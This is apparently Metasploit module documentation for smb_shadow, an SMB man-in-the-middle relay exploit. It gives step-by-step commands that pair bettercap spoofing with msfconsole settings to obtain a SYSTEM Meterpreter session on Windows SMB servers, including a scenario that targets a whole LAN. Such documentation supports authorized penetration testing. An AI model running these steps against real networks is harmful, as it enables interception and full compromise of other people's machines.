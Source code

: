 ## Vulnerable Application

To be able to use exploit/windows/smb/smb_shadow, you must meet these requirements:

* There is a Windows SMB Server on the LAN
* There is a Windows SMB Client on the LAN
* Metasploit is running will full local socket access (e.g. as root user)

## Verification Steps

1. Ensure Windows SMB Client and Server are on the LAN
2. Run bettercap targeting both the SMB Client and Server (`bettercap -I <iface> -T <smb-client-ip>,<smb-server-ip>`)
3. Start msfconsole (`sudo msfconsole`)
4. Do `use exploit/windows/smb/smb_shadow`
5. Do `set INTERFACE <iface>`
6. Do `set DefangedMode false`
7. Do `run`
8. Make a SMB Client connect to the SMB Server as an Administrator
9. Receive a Meterpreter Session as SYSTEM on the SMB Server host

## Options

### SHARE

This must be a SMB share that the connecting user has read and write access to.
SHARE is set to `ADMIN$` by default which is the standard share for the Administrator.

### INTERFACE

This must be a network interface on the local machine.
The interface must be on the same network as both the SMB Client and Server.

### DefangedMode

This must be set to false to acknowledge that the module will affect your network configuration.
DefangedMode is set to true by default to prevent unintentional network configuration disruptions.

### DisableFwd

This must be set to false if packet forwarding on port 445 was disabled manually.
DisableFwd is set to true by default to allow the module to disable packet forwarding on port 445.

## Scenarios

**Active Windows Network**

Follow the following steps to target all the hosts on the LAN:

1. Run bettercap targeting the entire LAN (`bettercap -I <iface>`)
2. Start msfconsole (`sudo msfconsole`)
3. Do `use exploit/windows/smb/smb_shadow`
4. Do `set INTERFACE <iface>`
5. Do `set DefangedMode false`
6. Do `run`
7. Wait for any SMB Client to connect to any SMB Server as an Administrator
8. Receive a Meterpreter Session as SYSTEM on the SMB Server host
